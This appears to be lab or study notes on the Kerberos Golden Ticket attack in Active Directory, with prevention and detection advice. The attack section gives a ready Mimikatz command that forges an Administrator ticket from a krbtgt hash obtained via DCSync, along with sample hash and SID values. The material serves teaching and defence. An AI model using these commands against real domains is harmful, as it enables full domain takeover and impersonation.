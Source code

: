 ## Description

The Kerberos Golden Ticket is an attack in which threat agents can create/generate tickets for any user in the Domain, therefore effectively acting as a Domain Controller.
When a Domain is created, the unique user account krbtgt is created. It is a disabled account that cannot be deleted, renames nor enabled. The KDC service will use its password to derive a key with which it signs all Kerberos tickets.
Any user possessing the password's hash of krbtgt can create valid Kerberos TGTs.
The attack allows us to escalate rights from any child domain to the parent in the same forest. It occurs after an adversary has gained Domain Admin (or similar) privileges.

## Attack

To perform it, we will use Mimikatz with the arguments:
- domain - The domain's name.
- sid - The domain's SID value.
- rc4 - The password's hash of krbtgt.
- user - The username for which the ticket will be issued (Windows 2019 blocks tickets to nonexistent users).
- id - Relative ID (last part of SID) for the user for whom the ticket will be issued.
- renewmax - The maximum number of days the ticket can be renewed.
- endin - End-of-life for the ticket.

First we need to get the NTLM hash of the user krbtgt, using DCSync: db0d0630064747072a7da3f7c3b4069e.
Then we need the SID value of the Domain, using Get-DomainSID from PowerView: S-1-5-21-1518138621-4282902758-752445584.
Now we got all the information needed.
```cmd-session
kerberos::golden /domain:eagle.local /sid:S-1-5-21-1518138621-4282902758-752445584 /rc4:db0d0630064747072a7da3f7c3b4069e /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt
```
The argument `/ptt` makes Mimikatz pass the ticket into the current session.

If then we run `klist` we'll see the ticket cached.
To verify it, list the contents of the share C$ of DC1 in the current session.

## Prevention

It is hard to prevent it because the KDC generates valid tickets the same way.
There are some thing we can and should do:
- Block privileged users from authenticating to any device.
- Periodically reset the password of the krbtgt account. Use [KrbtgtKeys.ps1](https://github.com/microsoft/New-KrbtgtKeys.ps1).
- Enforce SIDHistory filtering between the domains in forests to prevent the escalation from a child domain to a parent domain. This can result in potential issues in migrating domains.

## Detection

Correlating users' behavior is the best technique. See if any event with ID 4624 or 4625 generated is suspicious, based on the account and the source IP.

## Note

If an AD forest has been compromised, we need to reset all users' passwords and revoke all certificates, and for krbtgt. we must reset its password twice in every domain, with at least 10 hours apart from each reset.
